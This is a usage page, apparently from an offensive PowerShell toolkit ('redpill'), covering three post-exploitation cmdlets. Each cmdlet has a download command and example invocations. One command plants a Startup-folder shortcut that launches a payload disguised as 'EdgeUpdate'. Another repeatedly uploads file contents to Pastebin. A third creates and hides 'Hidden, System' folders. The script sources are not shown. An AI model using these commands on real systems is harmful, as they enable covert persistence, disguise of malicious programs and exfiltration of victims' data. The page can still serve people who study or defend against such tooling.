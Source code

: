## Out-shortcut.ps1
   
|Cmdlet Name|Description|Privileges|Notes|
|---|---|---|---|
|[Out-shortcut](https://github.com/r00t-3xp10it/redpill/blob/main/lib/Out-FileFormat/Out-shortcut.ps1)|Creates an shortcut file that accepts cmdline arguments to execute|User Land|[Screenshot](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Out-FileFormat/Out-Shortcut.png)|

<br />

**download cmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Out-FileFormat/Out-shortcut.ps1" -OutFile "Out-shortcut.ps1"
```

<br />

**execute:**
```powershell
#Create shortcut pointing to '$Env:TMP\Payload.exe' on startup folder with 'EdgeUpdate' description
.\Out-Shortcut.ps1 -shortcut "$Env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup" -target "$Env:TMP\Payload.exe" -description "EdgeUpdate"
```   

<br />

## SendToPasteBin.ps1
   
|Cmdlet Name|Description|Privileges|Notes|
|---|---|---|---|
|[SendToPasteBin](https://github.com/r00t-3xp10it/redpill/blob/main/lib/Out-FileFormat/SendToPasteBin.ps1)|Get filepath contents and paste it to pastebin.|User Land|[Screenshot](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Out-FileFormat/SendToPasteBin.png)|

<br />

**download cmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Out-FileFormat/SendToPasteBin.ps1" -OutFile "SendToPasteBin.ps1"
```

<br />

**prerequisites:**
```
-filepath 'string' only accepts .ps1 .bat .vbs file formats
-payloadurl 'string' only accepts .ps1 .bat .vbs file formats
```

<br />

**execute:**
```powershell
Get-Help .\SendToPasteBin.ps1 -full

#Get the contents of -filepath 'string' and creates a new pastebin paste from it on the sellected pastebin account.
.\SendToPasteBin.ps1 -FilePath "test.log" -maxpastes "1" -timeout "2" -PastebinUsername "r00t-3xp10it" -PastebinPassword "MyS3cr3TPassword"

#Get the contents of -filepath 'string' and creates a new pastebin paste from it each 120 seconds a max of 10 pastes on the sellected pastebin account.
.\SendToPasteBin.ps1 -FilePath "test.log" -maxpastes "10" -timeout "120" -PastebinUsername "r00t-3xp10it" -PastebinPassword "MyS3cr3TPassword"
```   

<br />

## SuperHidden.ps1
   
|Cmdlet Name|Description|Privileges|Notes|
|---|---|---|---|
|[SuperHidden](https://github.com/r00t-3xp10it/redpill/blob/main/lib/Out-FileFormat/SuperHidden.ps1)| Query\Create\Delete super hidden system folders|User Land|[Screenshot](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Out-FileFormat/SuperHidden.png)|

<br />

**download cmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Out-FileFormat/SuperHidden.ps1" -OutFile "SuperHidden.ps1"
```

<br />

**execute:**
```powershell
Get-Help .\SuperHidden.ps1 -full

#Search for 'Hidden, System' folders on predefined locations
.\SuperHidden.ps1 -Action "Query"

#Search for 'Hidden, System' folders on %TMP% location
.\SuperHidden.ps1 -Action "Query" -Directory "$Env:TMP"
   
#Search for 'Hidden, System' folders on %TMP% location 'recursive' (sub-folders)
.\SuperHidden.ps1 -Action "Query" -Directory "$Env:TMP" -Recursive "true"
   
#Search for folders with 'Hidden' attribute (not super Hidden, System) on %TMP%
.\SuperHidden.ps1 -Action "Query" -Directory "$Env:TMP" -attributes "Hidden"
   
#Search for 'Hidden, System' folders on %TMP% location with the name of 'vault'
.\SuperHidden.ps1 -Action "Query" -Directory "$Env:TMP" -FolderName "vault"
   
#Create\Modify 'Hidden, System' folder on %TMP% location with the name of 'vault'
.\SuperHidden.ps1 -Action "Hidden" -Directory "$Env:TMP" -FolderName "vault"
      
#Create\modify 'VISIBLE, System' folder on %TMP% location with the name of 'vault'
.\SuperHidden.ps1 -Action "Visible" -Directory "$Env:TMP" -FolderName "vault"
       
#Delete the super hidden 'Hidden, System' folder of %TMP% with the name of 'vault'
.\SuperHidden.ps1 -Action "Delete" -Directory "$Env:TMP" -FolderName "vault"
   
#Search for 'Hidden' OR 'System' directorys on %TMP% location in 'recursive' mode (scan sub-folders)
.\SuperHidden.ps1 -Action "Query" -Directory "$Env:TMP" -Attributes "(Hidden|System)" -Recursive "true"    
``` 
